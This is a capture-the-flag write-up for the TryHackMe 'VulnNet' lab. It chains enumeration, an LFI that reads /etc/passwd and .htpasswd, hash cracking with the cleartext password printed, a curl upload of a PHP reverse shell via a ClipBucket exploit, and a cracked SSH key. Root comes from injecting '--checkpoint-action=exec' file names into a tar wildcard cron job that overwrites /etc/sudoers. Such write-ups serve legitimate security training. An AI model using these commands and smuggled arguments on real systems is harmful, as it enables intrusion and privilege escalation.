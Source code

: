 # 71 - VulnNet (LFI, JS code review, tar \*)

Room Link --> [https://tryhackme.com/room/vulnnet1](https://tryhackme.com/room/vulnnet1)

You will have to add a machine IP with domain: `vulnnet.thm` to your /etc/hosts

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.33.25 -p- -sV -T5

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

Navigating to the webpage `http://vulnnet.thm` .

<figure><img src=".gitbook/assets/image (464).png" alt=""><figcaption></figcaption></figure>

#### Gobuster Enumeration

{% code overflow="wrap" %}
```bash
gobuster dir -u http://vulnnet.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403 -b 404

/css
/js
/img
/fonts
```
{% endcode %}

#### Subdomain Bruteforce / Discovery

{% code overflow="wrap" %}
```bash
ffuf -u http://vulnnet.thm -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.vulnnet.thm' -fs 5829

broadcast
```
{% endcode %}

This leads to an authentication page.

[http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

<figure><img src=".gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

But we don't have any credentials.&#x20;

I enumerated the JavaScript files in the JS dir, and found a parameter in the `index__d8338055.js` file:  --> \`[http://vulnnet.thm/index.php?referer=](http://vulnnet.thm/index.php?referer=)\`

<figure><img src=".gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

So i check for LFI and it worked:

[http://vulnnet.thm/index.php?referer=/etc/passwd](http://vulnnet.thm/index.php?referer=/etc/passwd)

<figure><img src=".gitbook/assets/image (467).png" alt=""><figcaption></figcaption></figure>

Back to the [http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

The page is using a Basic authentication

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can try to view the file that stores credentials for Basic Authentication on Ubuntu Apache, ie the `htpasswd` file. Located at `/etc/apache2/.htpasswd`&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reading the file and we see a credential:

`developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0` .

Cracking with John.

Cracked --> `developers :  9972761drmfsls` .

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Poceed to login to the page. And got a `Clipbucket CMS` .

So Google Exploit for ClipBucket v4.0 exploits, and saw a [FIle Upload Exploit](https://www.exploit-db.com/exploits/44250).

### Initial Access

#### Uploading malicious php file.

Using Curl

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:9972761drmfsls
creating file{"success":"yes","file_name":"169989120868ca6d","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

We naviigate to [http://broadcast.vulnnet.thm/actions/](http://broadcast.vulnnet.thm/actions/) There is a `CB_BEATS_UPLOAD_DIR`

We execute it and get shell.

<figure><img src=".gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Server-management user

There is a backup folder in the /var dir with some .gz files with Read privs on the, so we can download to kali and untar them.

{% code overflow="wrap" lineNumbers="true" %}
```bash
-rw-rw-r--  1 server-management server-management    1484 Jan 24  2021 ssh-backup.tar.gz
```
{% endcode %}

After untaring the file there is a `id_rsa` file.

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A7DAB4829FE59CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH8aV2FTiuMUsugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J0ZbOdEXvDBOpu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUADGeuFl12dLahapM5ZuKURwnzW9+RwmmJSuT0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```

We use `ssh2john` to crack the key password.

`oneTWO3gOyac`

```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh server-management@broadcast.vulnnet.thm -i id_rsa
```

Adnd am logged in.

### Priv Esc to Root

There is a cronjob running as root every 2 minutes.

<figure><img src=".gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
server-management@vulnnet:/var/opt$ cat backupsrv.sh 
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest

```

Its backingup everything in the Documents dir and saving to /var/backups dir every 2 minutes.

We can exploit the `*` (wildcard) there.

However, to exploit the vulnerability, execute below commands in the **/home/server-management/Documents/**.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we just add ourself to the /etc/sudoers file.
</strong><strong>echo 'echo "server-management ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > exploit.sh
</strong>echo "" > "--checkpoint-action=exec=sh exploit.sh"
echo "" > --checkpoint=1
</code></pre>

Now, wait 2 minutes, and execute `sudo /bin/bash` and your are **ROOT!**.

Done!

